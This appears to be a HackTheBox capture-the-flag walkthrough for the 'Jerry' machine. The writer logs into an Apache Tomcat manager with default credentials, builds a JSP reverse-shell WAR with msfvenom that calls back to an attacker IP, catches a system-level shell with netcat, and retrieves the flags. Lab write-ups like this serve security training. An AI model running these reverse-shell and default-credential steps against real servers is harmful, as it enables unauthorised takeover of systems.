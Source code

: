 # Jerry [HTB](https://app.hackthebox.com/machines/144)
![jerry-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/jerry-01.png)


## Recon 

After adding the target to my `/etc/hosts` file, I scan for open ports with:

```bash
nmap -p- --min-rate 10000 jerry.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/ports-02.png)

Let's run a software and version detection scan againts this port:

```bash
nmap -p 8080 -sCV jerry.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/nmap-res-03.png)

We can see that an Apache Tomcat/Coyote server is running on port 8080. Based on the site's title we can guess that the server is at a fresh install state. 


### Apache-Coyote Port 8080

Before we begin let's answer the following question: 

+ What is Coyote?

From the description of Coyote on the [Tomcat page](https://tomcat.apache.org/tomcat-4.1-doc/config/coyote.html) Coyote is a stand-alone web server that provides servlets to Tomcat applets. That is, it functions like the Apache web server, but for JavaServer Pages (JSP).

It comes with a web interface called the `Manager` which makes it easy to administer and control web applications running in Tomcat using a web browser. Using the Manager, you can deploy a new WAR application and control existing ones without having to restart Tomcat. This should be our exploitation strategy. 

Let's have a look at this server by opening our browser at `http://jerry.htb:8080` :

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/site-04.png)

As you can see, we have three main feature on this page: `Server Status`, `Manager App`, and `Host Manager`, the `Manager App` is what we want access to. Each one of these feature controls different aspects of the Coyote server, and to access each feature we need valid credentials. 

For example, clicking on the `Server Status` button brings the following window:

![login-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/login-05.png)

After a few failed login attempts the server will lock you out for several minutes and disaply this error page:

![err-page-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/err-page-06.png)

As you can see, this page gives a description on how to add users and roles to adminster the server. And in this page we can see suggested credentilas of `tomcat:s3cret` which I highlighted in red. So I decided to try them out, and they worked!

![logged-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/logged-07.png)

As you can see, the server redirected me to `manager/status`, where we can view different statics and info about the server. But what we really want is to access the server Manager app. 


So I decided to click on the `List Application` button on the left side of the page, and the Manager loads:

![manager-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/manager-08.png)

Meaning, the `Server-Status` feature, and the `Manager App` feature of the Tomcat server reused the same credentials. So we have access to the manager, let's try to upload a WAR payload!

If we scroll down a bit we can see the WAR deployment section:

![deploy-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/deploy-09.png)

This is where we will upload our WAR payload. And as you can see, the server asks for a WAR file to deploy, which we need to create. We can do this with `msfvenom` as such:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.37 LPORT=9001 -f war > runme.war
```

![msfvenom-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/msfvenom-10.png)

Now we can click on the `Choose File` button and select the war payload we created:


![choose-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/choose-11.png)

And then select `Deploy`. After that, you should see a new application in the applications list called `runme`:

![new-app-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/new-app-12.png)

The tomcat server created a dedicated directory for the uploaded war application. Once we visit this directory, our WAR payload will execute and we should get a connection back to us.

So before we visit the page we need to start a local listener to catch the connection:

```bash
rlwrap nc -lnvp 9001
```

Now we can visit our malicious war application at `http://jerry.htb:8080/runme/` :

![visit-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/visit-13.png)

As you can see this returns an empty page, but on my netcat listener I get a connection:

![root-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/root-14.png)

Apperantly, the Tomcat server was running under `NT Authority` on the target. So when the reverse shell triggered, we got a shell as the system.

If you are after the CTF flags, there is no low level user on this system, only the Administartor user is present. Inside the admin's Desktop page you will find the following directory:

![flags-15]()

There you will find a file that contains both flags. 
